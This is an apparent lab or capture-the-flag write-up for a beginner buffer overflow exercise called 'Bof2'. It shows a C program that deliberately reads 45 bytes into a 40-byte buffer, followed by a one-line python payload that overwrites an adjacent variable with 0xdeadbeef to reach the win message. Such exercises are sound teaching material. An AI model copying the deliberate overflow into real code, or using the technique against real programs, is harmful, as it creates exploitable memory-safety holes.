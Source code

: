 # Bof2
### Program code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
   }
}
```
>Goal: print out the text "Yeah! You win!"
### Solution:
- To overflow the memory, we need to input *40 random bytes* + *4 bytes to change **check's** data*
- In order to print out the text "Yeah! You win!", we must change ***check's*** data into *0xdeadbeef*
- Type `echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.o`
  
  ![](img/bof2/attackbof2.JPG)
  
- Goal achieved!

